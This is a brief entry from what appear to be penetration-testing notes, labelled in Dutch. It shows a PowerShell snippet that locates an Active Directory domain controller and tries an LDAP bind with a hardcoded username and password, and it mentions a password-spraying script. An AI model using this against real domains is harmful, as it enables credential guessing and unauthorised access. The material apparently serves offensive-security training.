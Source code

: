 # 23. AD authentication — Entry 13

## Categorie

Password attack LDAP 

## Commando

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

## Omschrijving

```
Manual script. There is also a Spray-Passwords.ps1 script
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

